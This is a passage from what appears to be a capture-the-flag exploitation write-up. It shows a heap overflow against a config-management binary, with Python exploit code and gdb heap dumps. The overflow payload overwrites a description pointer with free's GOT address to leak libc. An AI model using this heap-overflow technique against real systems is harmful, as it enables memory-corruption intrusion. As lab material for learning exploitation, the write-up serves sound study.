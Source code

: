 I’ll record 0x602f78, the GOT address for `free`, for later.

I’ll start with this skeleton:

```

new_config('dummy1', 0x18, 'to be deleted')
new_config('leak', 0x18, 'to be overwritten')
del_config(0)
new_config('overwriter', 0x18, 'overflow')
pdb.set_trace()

```

I’ll connect with `gdb` and look at the heap:

```

gdb-peda$ x/8xg 0x603060
0x603060:       0x0000000000f2f260      0x0000000000f2f2c0
0x603070:       0x0000000000000000      0x0000000000000000
0x603080:       0x0000000000000000      0x0000000000000000
0x603090:       0x0000000000000000      0x0000000000000000
gdb-peda$ x/26xg 0x0000000000f2f260
0xf2f260:       0x746972777265766f      0x0000000000007265  # "overwriter"
0xf2f270:       0x0000000000000000      0x0000000200000001
0xf2f280:       0x0000000400000003      0x0000000000000018
0xf2f290:       0x0000000000f2f2a0      0x0000000000000021  # 0xf2f2a0 --> desc
0xf2f2a0:       0x776f6c667265766f      0x0000000000007265  # "overflow"
0xf2f2b0:       0x0000000000000000      0x0000000000000041
0xf2f2c0:       0x000000006b61656c      0x0000000000000000
0xf2f2d0:       0x0000000000000000      0x0000000200000001
0xf2f2e0:       0x0000000400000003      0x0000000000000018
0xf2f2f0:       0x0000000000f2f300      0x0000000000000021  # 0xf2f300 --> desc
0xf2f300:       0x766f206562206f74      0x6574746972777265  # "to be overwritten"
0xf2f310:       0x0000000000e67e6e      0x0000000000020cf1
0xf2f320:       0x0000000000000000      0x0000000000000000

```

That will work nicely. I just need to change “overflow” to a long enough buffer such that it overwrites the value 0xf2f300 at address 0xf2f2f0 with the `free` GOT address from earlier.

Now I’ll update my Python:

```

new_config('dummy1', 0x18, 'to be deleted')
new_config('leak', 0x18, 'to be overwritten')
del_config(0)
new_config(b'A'*0x50 + p64(0x602f78), 0x18, 'B'*0x16)
print(print_config(1))
pdb.set_trace()

```
